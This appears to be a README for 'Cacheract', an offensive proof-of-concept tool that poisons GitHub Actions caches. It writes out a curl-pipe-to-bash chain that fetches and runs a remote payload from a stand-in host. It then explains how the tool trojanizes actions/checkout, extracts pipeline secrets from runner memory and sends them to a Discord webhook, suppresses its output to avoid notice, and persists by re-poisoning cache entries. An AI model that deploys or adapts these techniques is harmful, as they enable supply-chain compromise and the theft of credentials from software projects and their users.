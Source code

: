 1. Initial deployment: `curl -sSfL https://your-payload.com/code.sh | bash`

* `code.sh` contains:

`curl -sSfL https://your-payload.com/cacheract.js > /tmp/cacheract.js && node /tmp/cacheract.js`

2. The `https://your-payload.com/cacheract.js` file contains the packed `bundle.js` produced after running `npm run build` with the Cacheract repository.


## What Does Cacheract Do?

Cacheract works by overwriting the `action.yml` file for subsequent actions used within the pipeline to point to malicious, trojanized code. For this proof-of-concept, it targets `actions/checkout`, as most pipelines that use caching also check out code.

Every time Cacheract runs, it reports information about the pipeline to a webhook. If the pipeline is using an `ubuntu-latest` runner, it uses memory dump techniques to silently extract all of the pipeline's secrets and sends them to a Discord webhook. Furthermore, the production build of Cacheract is near unnoticable within a pipeline. It executes during the Post Run phase of the `actions/checkout` reusable action and all stdout and stderr output is nulled.

![image](https://github.com/user-attachments/assets/b4fe2c80-044b-4776-a77b-71a54b9c6ed1)

![image](https://github.com/user-attachments/assets/5351bb2b-1fa1-4af0-a391-0fc56a92c0e9)

### Initial Infection

Any arbitrary code execution within a default branch workflow can deploy Cacheract. This can occur through a Pwn Request, Injection, or a compromised dependency. Cacheract does not need to know which repository it is running within to deploy itself, as long as the repository uses `actions/checkout` in workflows that utilize caches.

If Cacheract is running in a workflow with a `GITHUB_TOKEN` that has `actions: write` permissions, it will download the original cache entry, add the poisoned payload, delete the original entry, and re-upload the new, poisoned cache entry.

This is particularly effective when simulating compromised NPM or PyPi packages. If your pipeline performs a `pip install` or `npm install`, and one of your upstream dependencies contains a trojan, it could deploy Cacheract into your pipeline.

You can use [Gato-X](https://github.com/adnaneKhan/gato-x) to find projects that could be susceptible to Pwn Request or injection attacks that an attacker can use to deploy Cacheract.


### Propagation

Cache keys and entries change frequently. To persist, Cacheract must opportunistically poison newer cache entries. Cacheract accomplishes this by checking all unique cache keys and versions that exist in non-default branches and setting a default branch entry for them. The basis for this approach is that pull requests updating files used to derive cache keys (e.g., lockfiles) typically set these entries within the merge reference scope. By pre-poisoning these entries, Cacheract can persist even after the original cache key changes.

If there are no cache keys present, Cacheract will parse workflow files for cache key patterns, compute the cache key + version, and set the new value itself.
